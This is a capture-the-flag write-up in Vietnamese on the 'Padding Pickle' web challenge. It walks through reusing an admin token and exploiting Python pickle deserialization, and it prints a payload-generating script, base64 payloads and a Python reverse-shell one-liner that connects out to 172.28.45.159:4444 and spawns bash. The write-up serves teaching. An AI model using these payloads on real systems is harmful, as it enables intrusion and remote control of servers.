





# Write up Padding Pickle - GDUCTF
Đầu tiên khi mở challange cho ta một form login, ta thử nhập 1 giá trị bất kỳ thì không đăng nhập được, thử login với username và password đều là ``admin`` thì đăng nhập thành công và redirect ta qua trang ``dashboard``:



Trang web bảo ta không phải là admin, và cho ta 1 đường dẩn để view log, khi nhấn vào đường dẩn:



Trang log cho ta thông tin về ``username`` và ``token``, và để ý thấy tại trang ``dashboard`` thì url có nhận 1 param là ``token``, ta thử thay đổi ``token`` đó bằng ``token`` của admin (url encode token trước khi chèn):



Nhìn vào trang web admin có gợi ý ta về ``pickle`` và phần placeholder của input là mã base64 của một object được pickle, ta suy đoán web này sẽ có ``Pickle-Deserialization vulnerability``

> Pickle là một module cho phép serialize và deserialize object trong Python. 

Ta dùng đoạn code sau để tạo payload:
```python
import subprocess
import base64
import pickle
 
class Exploit(object):
    def __reduce__(self):
        cmd = "whoami"
        return  subprocess.Popen,(cmd,)
 
print(base64.b64encode(pickle.dumps(Exploit())))
```
***Giải thích**: ta dùng hàm ``__reduce___`` để RCE. Vì
1. Hàm ``__reduce__()`` không nhận tham số và sẽ được gọi khi object được ``pickle``
2. Hàm này sẽ return về string hoặc tuple (khuyến khích là tuple). Khi một tuple được return thì tuple đó phải có từ 2-6 items. Trong đó item đầu sẽ là một ``callable object``. Và ``callable object`` này sẽ được gọi để khởi tạo phiên bản ban đầu của object. Item thứ 2 sẽ là một tuple con chứa các tham số của ``callable object`` ở item 1

Ở payload trên thì ``callable object`` là ``subprocess.Popen`` và ``whoami`` là param của ``calable object``
> class ``subprocess.Popen`` cho phép tạo ra một luồng mới trong ứng dụng và thực hiện chương trình con tại luồng mới đó và ``subprocess.Popen`` sẽ nhận tham số là đầu một tuple, mỗi item của tuple là một phần của câu command bất kỳ và cuối cùng sẽ thực hiện câu command đó

Và cuối cùng dùng ``dumps`` để serialize và hàm ``b64encode`` để encode

Output:
``bash
b'gASVJQAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwGd2hvYW1plIWUUpQu'
``

Ta nhập vào input được kết quả:



Ta thấy web chỉ deserialize payload và hiện ra dòng "I recieved, but can you RCE me?", nên ta không thể cho in output một cách bình thường mà phải dùng reverse shell

Tuy nhiên ta thử dùng ``nc`` và ``bash`` đều không được nên ta thử tới reverse shell bằng ``python``

Ta thay biến ``cmd`` của payload thành:
```python
cmd = "python3","-c",'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.28.45.159",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Output: 
```bash
b'gASVBgEAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwHcHl0aG9uM5SMAi1jlIzWaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE3Mi4yOC40NS4xNTkiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKZSHlIWUUpQu'
```
Ta dùng ``netcat`` listen trên port 4444 và sau đó inject payload:


Ta đã thực reverse shell thành công và tiến hành đọc flag:



>**FLAG:** KCSC{P4dd1ng_0racl3_4tt4ck_4nd_p1ckl3_uns3r1al1ze}


